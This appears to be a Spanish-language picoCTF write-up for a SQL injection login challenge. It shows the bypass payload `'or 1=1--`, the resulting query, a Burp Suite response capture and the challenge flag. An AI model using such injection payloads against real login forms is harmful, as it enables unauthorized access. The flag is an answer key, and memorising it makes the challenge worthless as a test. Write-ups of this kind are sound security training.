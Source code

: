 ## Objetivo
Can you find the flag on this website.Try to find the flag [here](http://saturn.picoctf.net:57512/).
## Solución
response de burpsuite:
```bash
HTTP/1.1 302 Found
Host: saturn.picoctf.net:57952
Date: Sun, 27 Oct 2024 04:10:59 GMT
Connection: close
X-Powered-By: PHP/7.4.3-4ubuntu2.19
Expires: Thu, 19 Nov 1981 08:52:00 GMT
Cache-Control: no-store, no-cache, must-revalidate
Pragma: no-cache
location: welcome.php
Content-type: text/html; charset=UTF-8

<pre>username: admin
password: 'or 1=1--
SQL query: SELECT id FROM users WHERE password = ''or 1=1--' AND username = 'admin'
</pre><h1>Logged in!.</h1><p>Your flag is: picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}</p>
<!DOCTYPE html>
<html lang="en">
	<head>
		<meta charset="utf-8">
		<meta http-equiv="X-UA-Compatible" content="IE=edge">
		<meta name="viewport" content="width=device-width, initial-scale=1">
		<title>picoCTF SQLi Security Challenge</title>
		<link rel="shortcut icon" href="/favicon.ico" type="image/x-icon">
		<link rel="stylesheet" type="text/css" href="css/style.css">
		<!-- Bootstrap -->
		<link href="css/bootstrap.min.css" rel="stylesheet">
		<script src="https://ajax.googleapis.com/ajax/libs/jquery/1.12.4/jquery.min.js"></script>
		<script src="js/bootstrap.min.js"></script>
	</head>

	<body>
	
		<div class="container">
			<form action="" method="post" class="form-login">
				<h1>Security Challenge</h1>
				<h3>Please log in</h2>
				<label for="inputUsername" class="sr-only">Username</label>
				<input type="text" name="username" id="inputUsername" class="form-control" placeholder="Username" required autofocus>
				<label for="inputPassword" class="sr-only">Password</label>
				<input type="password" name="password" id="inputPassword" class="form-control" placeholder="Password" required>
				<button class="btn btn-lg btn-primary btn-block" type="submit">Log in</button>
			</form>
		</div>
	</body>
</html>
```
## Notas Adicionales
al ingresar cualquier cosa en la casilla de login nos regresa:
```bash
username: admin
password: '
SQL query: SELECT id FROM users WHERE password = ''' AND username = 'admin'
```
vemos que esta usando SQL por lo cual haremos una inyeccion sql sencilla.
`'or 1=1--`
lo cual en efecto nos da acceso pero no hay ninguna flag visible, por lo que utilizare burp suite para ver la redireccion y los responses.
flag: `picoCTF{G3tting_5QL_1nJ3c7I0N_l1k3_y0u_sh0ulD_78d0583a}`
### Referencias
burpsuite